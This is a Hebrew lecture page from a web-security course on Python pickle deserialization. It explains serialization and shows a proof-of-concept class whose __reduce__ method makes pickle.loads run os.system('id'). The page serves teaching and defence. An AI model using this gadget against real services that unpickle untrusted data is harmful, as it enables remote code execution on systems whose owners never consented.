

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/7 - תקיפות צד שרת מתקדמות/7.4 - דסריאליזציה מתקדמת - Python ו-NET/7.4 - דסריאליזציה מתקדמת - Python ו-NET - הרצאה/index.html · generator: mkdocs

# דסריאליזציה מתקדמת - Python ו-NET

## חלק א - Python Pickle

### כיצד Pickle עובד

המודול `pickle` ב-Python מאפשר לסרלז ולדסרלז אובייקטים. הוא תומך כמעט בכל סוג אובייקט ב-Python, כולל מחלקות מותאמות.

```python
import pickle

# Serialization
data = {"user": "admin", "role": "viewer"}
serialized = pickle.dumps(data)
print(serialized)
# b'\x80\x04\x95\x1f\x00\x00\x00...'

# Deserialization
restored = pickle.loads(serialized)
print(restored)
# {'user': 'admin', 'role': 'viewer'}
```

### המתודה __reduce__ - שורש הבעיה

כש-Python מבצעת דסריאליזציה, היא קוראת למתודה `__reduce__()` של האובייקט. מתודה זו מחזירה tuple שאומר ל-Python איך לבנות מחדש את האובייקט. תוקף יכול לנצל זאת כדי להריץ קוד:

```python
import pickle
import os

class MaliciousObject:
    def __reduce__(self):
        # __reduce__ returns a tuple of (callable, args)
        # Python will call the callable with args during deserialization
        return (os.system, ("id",))

# Create a payload
payload = pickle.dumps(MaliciousObject())
print(payload)

# When someone performs deserialization - the command will run
pickle.loads(payload)
# uid=1000(attacker) gid=1000(attacker)
```

![איור המתאר כיצד pickle.loads על בתים לא מהימנים קורא למתודה reduce שמחזירה זוג של callable וארגומנטים, ו-Python מריץ אותם בזמן הפענוח ומקבל הרצת קוד](../../../images/illustrations/webadv-7-4-pickle-reduce.svg)
